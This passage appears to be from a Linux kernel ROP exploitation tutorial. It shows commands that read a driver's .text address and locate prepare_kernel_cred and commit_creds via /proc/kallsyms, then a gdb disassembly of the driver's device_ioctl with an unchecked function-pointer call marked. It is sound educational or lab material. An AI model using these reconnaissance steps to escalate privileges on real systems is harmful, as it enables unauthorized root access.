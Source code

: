 
- Guest: Get module .text address
  
  ```sh
  / # cat /sys/module/drv/sections/.text 
  0xffffffffa0000000
  ```

- Guest: get prepare_kernel_cred and commit_creds address
  
  ```sh
  / # cat /proc/kallsyms | grep prepare_kernel_cred
  ffffffff8108fa30 T prepare_kernel_cred
  / # cat /proc/kallsyms | grep commit_creds
  ffffffff8108f7b0 T commit_creds
  ```

- Host: gdb/qemu debug kernel remote target
  
  ```sh
  $ gdb /boot/vmlinuz-3.11.0-15-generic
  (gdb) target remote :1234
  (gdb) set disassembly-flavor intel
  
  (gdb) add-symbol-file drv.ko 0xffffffffa0000000
  add symbol table from file "drv.ko" at
    .text_addr = 0xffffffffa0000000
  (y or n) y
  Reading symbols from /home/osboxes/kernel_rop/drv.ko...done.

  (gdb) disassemble device_ioctl 
    Dump of assembler code for function device_ioctl:
      0xffffffffa00000bd <+0>:	data32 data32 data32 xchg ax,ax
      0xffffffffa00000c2 <+5>:	push   rbp
      0xffffffffa00000c3 <+6>:	mov    rbp,rsp
      0xffffffffa00000c6 <+9>:	sub    rsp,0x30
      0xffffffffa00000ca <+13>:	mov    QWORD PTR [rbp-0x18],rdi     ; device_ioctl 1st arg 
      0xffffffffa00000ce <+17>:	mov    DWORD PTR [rbp-0x1c],esi     ; device_ioctl 2nd arg
      0xffffffffa00000d1 <+20>:	mov    QWORD PTR [rbp-0x28],rdx     ; device_ioctl 3rd arg
      0xffffffffa00000d5 <+24>:	mov    eax,DWORD PTR [rbp-0x1c]
      0xffffffffa00000d8 <+27>:	test   eax,eax
      0xffffffffa00000da <+29>:	jne    0xffffffffa0000145 <device_ioctl+136>
      0xffffffffa00000dc <+31>:	mov    rax,QWORD PTR [rbp-0x28]
      0xffffffffa00000e0 <+35>:	mov    QWORD PTR [rbp-0x10],rax     ; save req struct address     
      0xffffffffa00000e4 <+39>:	mov    rax,QWORD PTR [rbp-0x10]
      0xffffffffa00000e8 <+43>:	mov    rax,QWORD PTR [rax]
      0xffffffffa00000eb <+46>:	mov    rsi,rax
      0xffffffffa00000ee <+49>:	mov    rdi,0xffffffffa0001066
      0xffffffffa00000f5 <+56>:	mov    eax,0x0
      0xffffffffa00000fa <+61>:	call   0xffffffff8172f662
      0xffffffffa00000ff <+66>:	mov    rax,QWORD PTR [rbp-0x10]
      0xffffffffa0000103 <+70>:	mov    rax,QWORD PTR [rax]
      0xffffffffa0000106 <+73>:	shl    rax,0x3
      0xffffffffa000010a <+77>:	add    rax,0xffffffffa0002340
      0xffffffffa0000110 <+83>:	mov    rsi,rax
      0xffffffffa0000113 <+86>:	mov    rdi,0xffffffffa0001074
      0xffffffffa000011a <+93>:	mov    eax,0x0
      0xffffffffa000011f <+98>:	call   0xffffffff8172f662
      0xffffffffa0000124 <+103>:	mov    rdx,0xffffffffa0002340
      0xffffffffa000012b <+110>:	mov    rax,QWORD PTR [rbp-0x10]
      0xffffffffa000012f <+114>:	mov    rax,QWORD PTR [rax]
      0xffffffffa0000132 <+117>:	shl    rax,0x3
      0xffffffffa0000136 <+121>:	add    rax,rdx
      0xffffffffa0000139 <+124>:	mov    QWORD PTR [rbp-0x8],rax
      0xffffffffa000013d <+128>:	mov    rax,QWORD PTR [rbp-0x8]
      0xffffffffa0000141 <+132>:	call   rax                        ; [1] call fn()
      0xffffffffa0000143 <+134>:	jmp    0xffffffffa0000146 <device_ioctl+137>
  ```